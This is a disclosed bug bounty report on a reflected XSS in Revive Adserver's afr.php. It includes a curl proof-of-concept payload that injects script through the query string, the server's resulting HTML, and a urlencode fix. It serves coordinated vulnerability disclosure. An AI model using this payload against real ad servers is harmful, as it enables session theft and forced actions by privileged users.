 # Reflected XSS on www/delivery/afr.php

## Report Details
- **Report ID**: 775693
- **URL**: https://hackerone.com/reports/775693
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-15T15:52:04.909Z
- **Disclosed**: 2020-01-21T13:13:48.835Z

## Reporter
- **Username**: jacopotediosi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: revive_adserver

## Vulnerability Information
At line 4381, $_SERVER['QUERY_STRING'], which is an untrusted user input, is assigned to the $dest variable.
Then at lines 4386-4387 $dest is printed into HTML code in two separate places.

PoC:
~~~~
curl "domain.com/www/delivery/afr.php?refresh=10000&\")',10000000);alert(1);setTimeout('alert(\""
<!DOCTYPE html PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN' 'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'>
<html xmlns='http://www.w3.org/1999/xhtml' xml:lang='en' lang='en'>
<head>
<title>Advertisement</title>

    <script type='text/javascript'><!--// <![CDATA[
        setTimeout('window.location.replace("http://domain.com/www/delivery/afr.php?refresh=10000&")',10000000);alert(1);setTimeout('alert("&loc=")', 10000000);
    // ]]> --></script><noscript><meta http-equiv='refresh' content='10000;url=http://domain.com/www/delivery/afr.php?refresh=10000&")',10000000);alert(1);setTimeout('alert("&loc='></noscript>
    <style type='text/css'>
body {margin:0; height:100%; background-color:transparent; width:100%; text-align:center;}
</style>
</head>
<body>

</body>
</html>
~~~~

Suggested remediation:
I suggest to change line 4381 from `$dest = MAX_commonGetDeliveryUrl($conf['file']['frame']).'?'.$_SERVER['QUERY_STRING'];` to `$dest = MAX_commonGetDeliveryUrl($conf['file']['frame']).'?'.urlencode($_SERVER['QUERY_STRING']);` in both files /www/delivery/afr.php and /www/delivery_dev/afr.php

## Impact

An attacker could use this XSS to steal session cookies (if readable via javascript, I didn't check) or transform it to a CSRF and cause involuntary actions to be performed by a privileged user

## Attachments
No attachments
